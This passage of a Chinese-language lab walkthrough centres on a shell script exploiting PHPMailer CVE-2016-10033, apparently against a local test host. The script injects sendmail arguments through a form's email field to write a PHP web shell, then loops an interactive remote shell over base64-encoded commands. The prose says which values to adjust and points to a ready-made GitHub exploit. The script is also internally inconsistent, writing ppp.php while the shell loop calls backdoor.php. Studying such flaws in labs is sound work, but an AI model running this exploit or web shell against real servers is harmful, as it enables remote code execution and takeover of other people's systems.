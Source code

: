```shell
curl -sq 'http://'$host -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n"vulnerables\\\" -OQueueDirectory=/tmp -X/var/www/html/ppp.php server\" @test.com\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nPwned\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n' >/dev/null && echo '[+] Target exploited, acessing shell at http://'$host'/ppp.php'

cmd='whoami'
while [ "$cmd" != 'exit' ]
do
    echo '[+] Running '$cmd
    curl -sq http://$host/backdoor.php?cmd=$(echo -ne $cmd | base64) | grep '|' | head -n 1 | cut -d '|' -f 2 | base64 -d
    echo
    read -p 'RemoteShell> ' cmd
done
echo '[+] Exiting'
```

主要修改地方在`name="email"`后面的数据以及目录地址`/var/www/html`

当然，在`github`上也有可直接使用的，地址为`https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/exploit.sh`，而且搜索出的`python`脚本也是可以直接使用的，不过在访问时，记得访问`192.168.10.16/ppp.php`

该脚本是通过`base64`进行的传递，所以，命令要进行`base64`编码的

先执行脚本，可能如下，但是不用管，是已经上传成功的。访问`192.168.10.16/ppp.php`即可，这里的提示不用管它

![](./pic-1/22.jpg)

访问即可观察到，这里的`aWQ=`是命令`id`的，所以会这样显示，说明成功

![](./pic-1/23.jpg)

